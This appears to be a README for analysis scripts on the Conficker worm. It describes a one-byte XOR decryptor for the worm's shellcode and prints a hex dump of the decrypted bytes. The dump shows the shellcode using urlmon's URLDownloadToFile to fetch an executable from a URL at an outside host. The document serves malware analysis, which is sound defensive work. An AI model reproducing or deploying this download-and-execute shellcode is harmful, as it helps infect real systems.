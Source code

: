 # Worm Conflicker Analysis scripts

conflicker_shellcode_decryptor.py - Carries out decryption of the shellcode used by conflicker/netapi worm.It's a one-byte XOR decryptor.

The output looks like,

00000170  83 c6 07 e8 18 00 00 00  33 d2 52 52 8b cc 66 c7  |........3.RR..f.|<br>
00000180  01 78 2e 51 ff 77 04 52  52 51 56 52 ff 37 ff e0  |.x.Q.w.RRQVR.7..|<br>
00000190  ad 51 56 95 8b 4b 3c 8b  4c 0b 78 03 cb 33 f6 8d  |.QV..K<.L.x..3..|<br>
000001a0  14 b3 03 51 20 8b 12 03  d3 0f 00 c0 0f bf c0 c1  |...Q ...........|<br>
000001b0  c0 07 32 02 42 80 3a 00  75 f5 3b c5 74 06 46 3b  |..2.B.:.u.;.t.F;|<br>
000001c0  71 18 72 db 8b 51 24 03  d3 0f b7 14 72 8b 41 1c  |q.r..Q$.....r.A.|<br>
000001d0  03 c3 8b 04 90 03 c3 5e  59 c3 60 a2 8a 76 26 80  |.......^Y.`..v&.|<br>
000001e0  ac c8 75 72 6c 6d 6f 6e  00 99 23 5d d9 68 74 74  |..urlmon..#].htt|<br>
000001f0  70 3a 2f 2f 31 39 32 2e  31 36 38 2e 31 38 38 2e  |p://192.168.188.|<br>
00000200  32 3a 32 31 39 31 2f 78  6d 7a 69 00 89 97 ab bd  |2:2191/xmzi.....|<br>
00000210  a2 8d 89 94 b0 80 80 ae  a5 a7 80 93 89 8d b4 a5  |................|<br>
00000220  90 9c a7 93 87 97 a2 85  96 9c 90 94 95 9c a9 82  |................|<br>

The decrypted output indicates the shellcode using 'urlmon.dll' of which 'URLDownloadToFile' function is used to download the executable from the URL mentioned in the decrypted buffer.

